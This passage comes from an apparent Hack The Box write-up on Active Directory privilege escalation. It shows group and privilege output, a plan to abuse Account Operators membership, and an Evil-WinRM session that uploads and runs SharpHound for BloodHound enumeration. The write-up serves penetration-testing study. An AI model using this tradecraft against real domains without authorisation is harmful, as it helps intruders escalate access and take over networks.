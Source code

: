 ```none
HTB\Service Accounts                       Group            S-1-5-21-3072663084-364016917-1341370565-1148 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.
```

In the case above, some noteworthy groups are the following groups:

* `BUILTIN\Remote Management Users` -> Have permission to access the machine via WinRM.
* `BUILTIN\Account Operators` -> Have permission to manage non-admin accounts.

Since I might be able to abuse the `BUILTIN\Account Operators` group, I figured I should try seeing if being part of this group could potentially escalate my permissions to a domain admin. A great tool for visualizing the shortest path to higher privileged users on the Active Directory domain is [bloodhound](https://github.com/BloodHoundAD/BloodHound).

Since bloodhound is only a visualiztion tool, it first needs data. I was able to collect Active Directory data to visualize by using [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors) which will collect data from Active Directory which I can then load into `BloodHound`.

```none
*Evil-WinRM* PS C:\Windows\Temp\r0kit> upload '/home/kali/tools/BloodHound/Ingestors/SharpHound.exe'
Info: Uploading /home/kali/tools/BloodHound/Ingestors/SharpHound.exe to C:\Windows\Temp\r0kit\SharpHound.exe


Data: 1111380 bytes of 1111380 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Windows\Temp\r0kit> ls


    Directory: C:\Windows\Temp\r0kit


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         9/9/2020  12:16 PM         833536 SharpHound.exe


*Evil-WinRM* PS C:\Windows\Temp\r0kit> .\SharpHound.exe
-----------------------------------------------
Initializing SharpHound at 12:16 PM on 9/9/2020
-----------------------------------------------

```